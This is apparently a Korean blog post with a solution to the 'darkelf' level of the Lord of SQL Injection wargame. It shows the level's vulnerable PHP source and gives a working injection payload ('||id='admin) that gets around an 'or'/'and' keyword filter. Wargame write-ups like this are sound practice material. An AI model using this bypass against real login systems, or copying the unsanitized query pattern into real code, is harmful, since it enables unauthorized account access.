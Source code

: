 ```yaml
---
layout: post
title:  "los prob_darkelf"
date:   2019-08-23
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_darkelf where id='guest' and pw=''

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve

* or,and가 필터링 -> "or" : "||", "and" : "&&"로 우회
* 연산자 우선 순위 -> and > or 

### ?pw=noonzib'||id='admin

## DARKELF Clear!
